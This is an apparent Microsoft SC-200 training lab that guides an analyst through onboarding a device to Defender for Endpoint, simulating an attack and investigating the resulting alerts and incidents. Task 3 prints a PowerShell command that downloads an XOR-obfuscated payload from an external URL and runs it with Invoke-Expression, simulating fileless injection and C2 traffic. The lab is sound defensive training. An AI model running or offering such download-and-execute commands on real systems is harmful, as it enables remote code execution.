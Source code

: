 ```yaml
---
lab:
    title: 'Exercise 2 - Mitigate Attacks with Microsoft Defender for Endpoint'
    module: 'Learning Path 2 - Mitigate threats using Microsoft Defender for Endpoint'
---
```


# Learning Path 2 - Lab 1 - Exercise 2 - Mitigate Attacks with Microsoft Defender for Endpoint

## Lab scenario

![Lab overview.](../Media/SC-200-Lab_Diagrams_Mod2_L1_Ex2_10_19.png)

You are a Security Operations Analyst working at a company that is implementing Microsoft Defender for Endpoint. Your manager plans to onboard a few devices to provide insight into required changes to the Security Operations (SecOps) team response procedures.

To explore the Defender for Endpoint attack mitigation capabilities, you will verify successful device onboarding and investigate alerts and incidents created during that process.

>**Note:** An **[interactive lab simulation](https://mslabs.cloudguides.com/guides/SC-200%20Lab%20Simulation%20-%20Mitigate%20attacks%20with%20Microsoft%20Defender%20for%20Endpoint)** is available that allows you to click through this lab at your own pace. You may find slight differences between the interactive simulation and the hosted lab, but the core concepts and ideas being demonstrated are the same.

### Task 1: Verify Device onboarding

In this task, you will confirm that the device is onboarded successfully and create a test alert.

1. If you are not already at the Microsoft Defender XDR portal in your Microsoft Edge browser, go to (https://security.microsoft.com) and login as Admin for your tenant.

1. In the left-hand menu, under the **Assets** area, select **Devices**. Please wait until WIN1 appears in the Devices page before you continue. Otherwise, you might need to repeat this task to see the alerts that will be generated later.

    >**Note:** If you have completed the onboarding process and don't see devices in the Devices list after an hour, it might indicate an onboarding or connectivity problem.

1. Select **Settings** from the left menu bar, then from the Settings page select **Endpoints**.

1. Select **Onboarding** in the Device management section and make sure *"Windows 10 and 11"* is selected as operating system. The *"First device onboarded"* message now shows *Completed*.

1. Scroll down and under the section *"2. Run a detection test"*, copy the detection test script by selecting the **Copy** button.  

1. In the windows search bar of the WIN1 virtual machine, type **CMD** and choose to **Run as Administrator** on the right pane for the Command Prompt app.

1. When the "User Account Control" window is shown, select **Yes** to allow the app to run. 

1. Paste the script by right-clicking in the **Administrator: Command Prompt** windows and press **Enter** to run it.

    >**Note:** The window closes automatically after successfully running the script, and after a few minutes alerts are generated in the Microsoft Defender XDR portal.

### Task 2: Investigate alerts and incidents

In this task, you will investigate the alerts and incidents generated by the onboarding detection test script in the previous task.

1. In the Microsoft Defender XDR portal select **Incidents & alerts** from the left menu bar, then select **Alerts**.

1. In the **Alerts** pane, select the alert named *Suspicious PowerShell commandline* to load its details.

1. Review the *Alert story* timeline, and then review the *Details* and *Recommendations* tabs.

    >**Note:** Under the alert *Details* tab you can scroll down to the *Incident details* section and select the *Execution incident on one endpoint* link to open the incident.

1. In the Microsoft Defender XDR portal select **Incidents & alerts** from the left menu bar, then select **Incidents**

1. A new incident called *Execution incident on one endpoint* is in the right pane. Select the incident name to load its details.

1. Select the **Manage incident** link (with a pencil icon) and a new window blade appears.

1. Under **Incident tags** type "Simulation" and select **Simulation (Create new)** to create a new tag.

1. Select the toggle **Assign to**  and add your user account (Me) as owner of the incident.

1. Under **Classification**, expand the drop-down menu.

1. Under **Informational, expected activity**, select **Security testing**.

1. Add any comments if desired and select **Save** to update the incident and finish.

1. Review the contents of the *Attack story, Alerts, Assets, Investigations, Evidence and Response*, and *Summary* tabs. Devices and Users are under the *Assets* tab. In a real incident the *Attack story* tab displays the *Incident graph*. **Hint:** Some tabs might be hidden due the size of your display. Select the ellipsis tab (...) to make them appear.

### Task 3 Simulate an Attack

>**Warning:** This simulated attack is an excellent source of learning through practice. Only perform the attack in the instructions provided for this lab when using the course provided Azure tenant.  You may perform other simulated attacks *after* this training course is complete with this tenant.

In this task, you will simulate an attack on the WIN1 virtual machine and verify that the attack is detected and mitigated by Microsoft Defender for Endpoint.

1. On the WIN1 virtual machine, *right-click* the **Start** button and choose **Windows PowerShell (Admin)**.

1. When the "User Account Control" window is shown, select **Yes** to allow the app to run.

1. Copy and paste the following simulation script into the PowerShell window and press **Enter** to run it:

    ```PowerShell
    [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
    ;$xor = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');
    $base64String = (Invoke-WebRequest -URI "https://wcdstaticfilesprdeus.blob.core.windows.net/wcdstaticfiles/MTP_Fileless_Recon.txt" -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
    $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
    $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
    ```

    >**Note:** If you experience errors (in red) while running the script, you can open the Notepad app and copy the script into a blank file. Make sure *word wrap* is turned on in Notepad. Then, copy and run each line of the script separately in PowerShell. Also, a PowerShell script (attacksim.ps1) was provided in the files downloaded at the beginning of the labs. To use the script, in **Windows PowerShell (Admin)** navigate to the *\Users\Admin\Desktop* folder and type *.\attacksim.ps1* and press **Enter** to run it.

1. The script will produce several lines of output and a message that it *Failed to resolve Domain Controllers in the domain*. A few seconds later, the *Notepad* app will open. A simulated attack code will be injected into Notepad. Keep the automatically generated Notepad instance open to experience the full scenario. The simulated attack code will attempt to communicate to an external IP address (simulating a C2 server).

### Task 4: Investigate the simulated attack as a single incident

1. In the Microsoft Defender XDR portal select **Incidents & alerts** from the left menu bar, then select **Incidents**

1. A new incident called *Multi-stage incident involving Defense evasion & Discovery on one endpoint* is in the right pane. Select the incident name to load its details.

1. Under the *Attack story* tab, collapse the **Alerts** and **Incident details** panes to view the full **Incident graph**.

1. Mouse over and select the **Incident graph nodes** to review the *entities*.

1. Re expand the **Alerts** pane (left-side) and select the **Play attack story** *Run* icon. This shows the attack timeline alert by alert and dynamically populates the *Incident graph*.

1. Review the contents of the *Attack story, Alerts, Assets, Investigations, Evidence and Response*, and *Summary* tabs. Devices and Users are under the *Assets* tab. **Hint:** Some tabs might be hidden due the size of your display. Select the ellipsis tab (...) to make them appear.

1. Under the **Evidence and Response** tab, select **IP addresses** then select the displayed *IP address*. In the pop-up window review the IP address details and scroll down and select the **Open IP address page** button.

1. Review the contents of the *Ip address* page *Overview, Incidents & alerts and Observed in organizations* tabs. Some tabs may not contain and information for the IP address.

## You have completed the lab
